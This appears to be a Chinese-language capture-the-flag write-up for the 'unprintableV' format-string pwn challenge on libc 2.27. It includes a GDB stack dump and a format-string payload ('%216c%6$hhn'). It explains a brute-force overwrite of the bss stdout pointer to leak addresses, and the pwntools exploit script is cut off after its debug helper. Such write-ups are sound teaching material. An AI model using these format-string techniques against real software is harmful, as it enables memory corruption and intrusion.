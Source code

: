 # pwn

感谢 Vidar-Team、L-Team、CNSS 带来的高质量比赛

## unprintableV

`libc2.27`

`pwnable.tw上`的`unprintable`魔改，第5版了。。我原先解pwnable.tw上这道题用的是把`bss`段上的`stdout`改成了`stderr`进行了泄露，这次这题也刚刚好用到了这个解法，不过这题禁用了`execve`,但是可以多次`printf`也不是什么大问题

一开始断点下在`printf(buf)`那里，栈的情况

```asm
 ► 0x55b7cd5bfa20    call   0x55b7cd5bf780
 
   0x55b7cd5bfa25    mov    eax, dword ptr [rip + 0x2015e5]
   0x55b7cd5bfa2b    sub    eax, 1
   0x55b7cd5bfa2e    mov    dword ptr [rip + 0x2015dc], eax
   0x55b7cd5bfa34    nop    
   0x55b7cd5bfa35    pop    rbp
   0x55b7cd5bfa36    ret    
 
   0x55b7cd5bfa37    push   rbp
   0x55b7cd5bfa38    mov    rbp, rsp
   0x55b7cd5bfa3b    mov    rax, qword ptr [rip + 0x2015de]
   0x55b7cd5bfa42    mov    ecx, 0
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ rbp rsp  0x7ffcc627f8c0 —▸ 0x7ffcc627f8e0 —▸ 0x7ffcc627f900 —▸ 0x55b7cd5bfb60 ◂— push   r15
01:0008│          0x7ffcc627f8c8 —▸ 0x55b7cd5bfafb ◂— mov    edx, 6
02:0010│          0x7ffcc627f8d0 ◂— 0x7fff000000000006
03:0018│          0x7ffcc627f8d8 —▸ 0x55b7cd7c1060 ◂— '%216c%6$hhn'		//name
04:0020│          0x7ffcc627f8e0 —▸ 0x7ffcc627f900 —▸ 0x55b7cd5bfb60 ◂— push   r15
05:0028│          0x7ffcc627f8e8 —▸ 0x55b7cd5bfb51 ◂— mov    eax, 0
06:0030│          0x7ffcc627f8f0 —▸ 0x7ffcc627f9e8 —▸ 0x7ffcc62813cd ◂— './unprintableV'
07:0038│          0x7ffcc627f8f8 ◂— 0x100000000

```

可以看到有两条这样的链`0x7ffcc627f8c0 —▸ 0x7ffcc627f8e0 —▸ 0x7ffcc627f900 —▸ 0x55b7cd5bfb60 ◂— push   r15`,`0x7ffcc627f8f0 —▸ 0x7ffcc627f9e8 —▸ 0x7ffcc62813cd ◂— './unprintableV'`,而且一开始还给了栈地址，完美啊

所以思路是先让`03:0018│          0x7ffcc627f8d8 —▸ 0x55b7cd7c1060 ◂— '%216c%6$hhn'		//name`这里指向`bss`段上的`stdout`，然后把`stdout`改为`stderr`，看脸的时候到了，1/16的概率，注意下就是因为`close(1)`了，printf大于`0x2000`的字符数好像写不进去，所以爆破的时候用`p16(0x1680)`或者`p16(0x0680)`，成功的话`printf`就可以泄露啦，后面就随便玩了，:P

这次脸超级好，3次成功了两次，有点不太敢相信

exp为：

```python
from pwn import *

context.arch='amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def main(host,port=10397):
	global p
	if host:
```